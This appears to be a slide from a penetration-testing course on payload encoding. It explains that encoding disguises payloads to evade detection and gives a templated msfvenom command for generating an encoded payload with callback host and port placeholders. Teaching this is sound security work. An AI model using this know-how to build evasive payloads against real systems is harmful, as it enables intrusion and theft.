

# Payload Encoding:
Encoding is used to modify the appearance of a payload, often to avoid detection or to ensure it gets executed without interruption.

Command :
msfvenom -p [payload_type] LHOST=[Your_IP] LPORT=[Port_Number] -f [format] -e [encoder] -i [iterations] > output_filename